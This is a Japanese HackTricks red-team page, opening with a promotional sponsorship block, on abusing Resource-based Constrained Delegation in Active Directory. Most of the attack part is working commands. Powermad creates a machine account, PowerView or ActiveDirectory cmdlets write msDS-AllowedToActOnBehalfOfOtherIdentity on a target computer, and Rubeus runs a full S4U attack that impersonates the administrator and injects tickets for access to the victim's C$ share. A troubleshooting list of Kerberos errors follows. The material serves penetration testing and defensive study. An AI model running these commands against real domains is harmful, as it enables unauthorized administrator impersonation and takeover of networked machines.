 # Resource-based Constrained Delegation

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝する**か**HackTricksをPDFでダウンロードする**場合は[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)を**フォロー**する。
* **ハッキングトリックを共有するには** [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してください。

</details>

## リソースベースの制約付き委任の基礎

これは基本的な[制約付き委任](constrained-delegation.md)に似ていますが、**オブジェクトに対して任意のユーザーを偽装する権限を与える**代わりに、リソースベースの制約付き委任は**オブジェクトに対して任意のユーザーを偽装できるユーザーを設定**します。

この場合、制約付きオブジェクトには、**msDS-AllowedToActOnBehalfOfOtherIdentity**という属性があり、それに対して他のユーザーを偽装できるユーザーの名前が設定されます。

この制約付き委任と他の委任との重要な違いは、**マシンアカウントに対する書き込み権限を持つ任意のユーザー**が\_**msDS-AllowedToActOnBehalfOfOtherIdentity**\_を設定できることです（他の委任形式では、ドメイン管理者権限が必要でした）。

### 新しい概念

制約付き委任では、ユーザーの\_userAccountControl\_値の中にある\*\*`TrustedToAuthForDelegation`**フラグが**S4U2Self**を実行するために必要であると言われていました。しかし、それは完全な真実ではありません。**\
**実際には、その値がなくても、サービス（SPNを持っている）であれば、任意のユーザーに対してS4U2Selfを実行できますが、**`TrustedToAuthForDelegation`**がある場合、返されるTGSは**Forwardable**になり、そのフラグがない場合、返されるTGSは**Forwardable\*\*になりません。

ただし、**S4U2Proxy**で使用される**TGS**が**Forwardable**でない場合、**基本的な制約付き委任**を悪用しようとしても**機能しません**。ただし、**リソースベースの制約付き委任**を悪用しようとする場合は機能します（これは脆弱性ではなく、明らかに機能です）。

### 攻撃構造

> **コンピュータ**アカウントに**書き込みに相当する権限**がある場合、そのマシンで**特権アクセス**を取得できます。

攻撃者がすでに**被害者コンピュータ**に対して**書き込みに相当する権限**を持っていると仮定します。

1. 攻撃者は、**SPN**を持つアカウントを**侵害**するか（"Service A"）、**作成**します。注意すべきは、**特別な特権を持たない**\_管理者ユーザー\_でも最大10の**コンピュータオブジェクト（MachineAccountQuota）を作成**し、それに**SPN**を設定できることです。したがって、攻撃者は単にコンピュータオブジェクトを作成し、SPNを設定できます。
2. 攻撃者は、被害者コンピュータ（ServiceB）に対する**リソースベースの制約付き委任を許可**するために、被害者コンピュータ（ServiceB）上での**WRITE権限を悪用**します。
3. 攻撃者はRubeusを使用して、特権アクセスを持つユーザーに対して、Service AからService Bへの**完全なS4U攻撃**（S4U2SelfおよびS4U2Proxy）を実行します。
4. S4U2Self（侵害された/作成されたSPNアカウントから）：**管理者から私へのTGS**を要求します（Forwardableではない）。
5. S4U2Proxy：前述の**ForwardableでないTGS**を使用して、**管理者から被害者ホスト**への**TGS**を要求します。
6. ForwardableでないTGSを使用していても、リソースベースの制約付き委任を悪用しているため、機能します。
7. 攻撃者は**チケットを渡す**ことができ、ユーザーを**偽装**して**被害者ServiceBにアクセス**できます。

ドメインの_**MachineAccountQuota**_を確認するには、次のコマンドを使用できます：

```powershell
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```

## 攻撃

### コンピュータオブジェクトの作成

ドメイン内でコンピュータオブジェクトを作成することができます。[powermad](https://github.com/Kevin-Robertson/Powermad)**:**

```powershell
import-module powermad
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# Check if created
Get-DomainComputer SERVICEA
```

### R**esource-based Constrained Delegationの設定**

**activedirectory PowerShellモジュールを使用する**

```powershell
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount SERVICEA$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it worked
```

**PowerViewを使用する**

```powershell
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```

### 完全なS4U攻撃の実行

まず最初に、パスワード`123456`を持つ新しいコンピュータオブジェクトを作成したので、そのパスワードのハッシュが必要です：

```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```

これにより、そのアカウントのRC4ハッシュとAESハッシュが表示されます。\
攻撃を実行できるようになりました：

```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```

Rubeusの`/altservice`パラメータを使用して、一度のリクエストで複数のチケットを生成できます。

```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```

{% hint style="danger" %}
ユーザーには "**委任できない**" という属性があります。ユーザーがこの属性をTrueにしている場合、彼をなりすますことはできません。このプロパティはBloodHound内で確認できます。
{% endhint %}

### アクセス

最後のコマンドラインは、**完全なS4U攻撃を実行し、Administratorから被害者ホストへのTGSをメモリに注入**します。\
この例では、Administratorから**CIFS**サービスのTGSが要求されたため、\*\*C$\*\*にアクセスできるようになります。

```bash
ls \\victim.domain.local\C$
```

### 異なるサービスチケットの悪用

[**ここで利用可能なサービスチケットについて学ぶ**](silver-ticket.md#available-services)。

## Kerberos エラー

* **`KDC_ERR_ETYPE_NOTSUPP`**: これは、Kerberos が DES または RC4 を使用しないように構成されており、RC4 ハッシュのみを提供していることを意味します。少なくとも AES256 ハッシュを Rubeus に提供してください（または単に rc4、aes128、aes256 ハッシュを提供してください）。例: `[Rubeus.Program]::MainString("s4u /user:FAKECOMPUTER /aes256:CC648CF0F809EE1AA25C52E963AC0487E87AC32B1F71ACC5304C73BF566268DA /aes128:5FC3D06ED6E8EA2C9BB9CC301EA37AD4 /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:Administrator /msdsspn:CIFS/M3DC.M3C.LOCAL /ptt".split())`
* **`KRB_AP_ERR_SKEW`**: これは、現在のコンピュータの時刻が DC の時刻と異なり、Kerberos が正常に機能していないことを意味します。
* **`preauth_failed`**: これは、指定されたユーザー名 + ハッシュがログインに使用されていないことを意味します。ハッシュを生成する際にユーザー名に "$" を入れ忘れている可能性があります（`.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local`）
* **`KDC_ERR_BADOPTION`**: これは次のことを意味する可能性があります:
  * 擬似化しようとしているユーザーが望ましいサービスにアクセスできない（擬似化できないか、権限が不十分なため）
  * 要求されたサービスが存在しない（WinRM のチケットを要求しているが、WinRM が実行されていない場合）
  * 作成された fakecomputer が脆弱なサーバー上で権限を失い、それを戻す必要がある

## 参考文献

* [https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/](https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object)
* [https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)
